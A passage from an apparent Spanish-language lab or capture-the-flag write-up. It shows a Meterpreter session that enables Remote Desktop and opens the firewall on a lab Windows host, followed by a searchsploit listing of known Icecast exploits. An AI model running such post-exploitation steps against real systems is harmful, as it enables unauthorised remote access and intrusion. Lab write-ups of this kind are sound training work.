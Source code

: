 
```
meterpreter > run post/windows/manage/enable_rdp

[*] Enabling Remote Desktop
[*]     RDP is already enabled
[*] Setting Terminal Services service startup mode
[*]     The Terminal Services service is not set to auto, changing it to auto ...
[*]     Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20241010223552_default_10.10.10.157_host.windows.cle_797282.txt
meterpreter > 

```

## Tarea 7  - Crédito adicional

No por tiempo solo CLick

```
searchsploit Icecast                                      
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                   |  Path
----------------------------------------------------------------- ---------------------------------
Icecast 1.1.x/1.3.x - Directory Traversal                        | multiple/remote/20972.txt
Icecast 1.1.x/1.3.x - Slash File Name Denial of Service          | multiple/dos/20973.txt
Icecast 1.3.7/1.3.8 - 'print_client()' Format String             | windows/remote/20582.c
Icecast 1.x - AVLLib Buffer Overflow                             | unix/remote/21363.c
Icecast 2.0.1 (Win32) - Remote Code Execution (1)                | windows/remote/568.c
Icecast 2.0.1 (Win32) - Remote Code Execution (2)                | windows/remote/573.c
Icecast 2.0.1 (Windows x86) - Header Overwrite (Metasploit)      | windows_x86/remote/16763.rb
Icecast 2.x - XSL Parser Multiple Vulnerabilities                | multiple/remote/25238.txt
icecast server 1.3.12 - Directory Traversal Information Disclosu | linux/remote/21602.txt
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

